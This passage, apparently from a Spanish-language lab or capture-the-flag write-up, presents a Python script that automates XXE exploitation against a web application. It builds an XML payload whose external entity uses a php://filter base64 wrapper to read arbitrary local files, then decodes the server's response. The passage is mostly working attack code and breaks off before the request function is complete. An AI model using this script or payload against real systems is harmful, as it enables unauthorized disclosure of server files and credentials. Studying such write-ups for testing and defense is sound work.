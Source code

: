 ### Python Script to perform XXE Base 64 Wrapper Exploitation

Para automatizar el proceso de explotación `XXE` sin necesidad de codificar manualmente el archivo `XML` malicioso, enviar la petición a `BurpSuite` y decodificar la respuesta en `Base64`, hemos desarrollado el siguiente script en Python.

Este script construye automáticamente la solicitud a la aplicación web, inyecta una estructura `XML` con `XXE`, recupera la respuesta en `Base64` y la decodifica para mostrar el contenido del archivo objetivo de forma legible.

{% code title="xxe_lfi.py" %}
```python
import requests
import subprocess
import base64
import sys
from bs4 import BeautifulSoup

# Función para crear el payload XML con inyección XXE
def create_xml_payload(file_path):
    # Plantilla XML con XXE usando una variable para la ruta del archivo
    xxe_payload = f'''<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource={file_path}"> ]>
    <bugreport>
        <title>&xxe;</title>
        <cwe>CWE</cwe>
        <cvss>9.8</cvss>
        <reward>1,000,000</reward>
    </bugreport>
    '''
    return xxe_payload

# Función para codificar el XML en Base64
def encode_base64(xml_data):
    return base64.b64encode(xml_data.encode('utf-8')).decode('utf-8')

# Función para limpiar las etiquetas HTML de la respuesta
def clean_html(response_text):
    soup = BeautifulSoup(response_text, 'html.parser')
    return soup.get_text()

# Función para decodificar Base64 a texto plano o binario
def decode_base64(encoded_data):
    try:
        # Corregir el padding de Base64
        encoded_data = encoded_data + '=' * (4 - len(encoded_data) % 4)  # Aseguramos que tenga el padding correcto

        decoded_data = base64.b64decode(encoded_data)
        
        # Intentamos decodificar como texto
        try:
            return decoded_data.decode('utf-8')
        except UnicodeDecodeError:
            # Si falla la decodificación en UTF-8, regresamos el contenido binario
            return decoded_data
    except Exception as e:
        print(f"Error decoding base64: {e}")
        return None

# Función principal para realizar la solicitud POST
def send_post_request(file_path):
    # Crear el payload XML con la ruta del archivo
```